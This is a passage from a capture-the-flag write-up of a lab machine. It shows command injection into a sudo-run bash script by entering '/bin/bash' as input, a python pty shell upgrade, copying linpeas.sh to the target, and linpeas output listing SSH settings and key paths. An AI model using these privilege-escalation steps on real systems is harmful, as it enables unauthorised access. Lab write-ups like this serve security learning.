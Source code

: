```
```

This is clearly a `bash` script, and those `$name` and `$error` variables look interesting.

```
dale@TEAM:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: /bin/bash
Enter 'date' to timestamp the file: /bin/bash
The Date is ls
admin_checks
whoami
gyles
```

Note how I've snuck in `/bin/bash` so that `$error` reads and executes that! Let's also get a proper shell.

```
python3 --version
Python 3.6.5
python3 -c "import pty; pty.spawn('/bin/bash')"
gyles@TEAM:/home/gyles$ 
```

Nice. Now, we are done with lateral privesc. Time for `linpeas.sh`! `scp` the file over to the machine.

```
❯ scp -i path/to/id_rsa /path/to/linpeas.sh dale@10.10.153.126:~
linpeas.sh                    100%  313KB 155.7KB/s   00:02    
```

```
[+] Systemd PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#systemd-path-relative-paths                                     
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```
[+] Searching ssl/ssh files
/home/gyles/.ssh/known_hosts                                    
PermitRootLogin without-password
PubkeyAuthentication yes
ChallengeResponseAuthentication no
UsePAM no
Possible private SSH keys were found!
/etc/ssh/sshd_config
  --> Some certificates were found (out limited):
/var/lib/lxd/server.crt
/etc/pollinate/entropy.ubuntu.com.pem

 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```
